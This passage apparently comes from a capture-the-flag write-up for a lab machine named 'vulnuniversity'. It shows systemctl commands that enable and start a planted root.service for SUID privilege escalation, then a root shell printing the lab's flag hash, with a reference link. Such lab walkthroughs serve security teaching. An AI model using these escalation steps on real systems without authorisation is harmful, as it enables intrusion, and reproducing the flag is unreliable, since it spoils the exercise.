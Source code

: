 {% tab title="Execute" %}
```
$ /bin/systemctl enable /var/tmp/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /var/tmp/root.service
Created symlink from /etc/systemd/system/root.service to /var/tmp/root.service

/bin/systemctl start root
```
{% endtab %}

{% tab title="Output" %}
```
root@vulnuniversity:~# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5

```
{% endtab %}
{% endtabs %}

## References

* [Privilege Escalation: Systemctl \(Misconfigured Permissions — sudo/SUID\)](https://gist.github.com/A1vinSmith/78786df7899a840ec43c5ddecb6a4740)

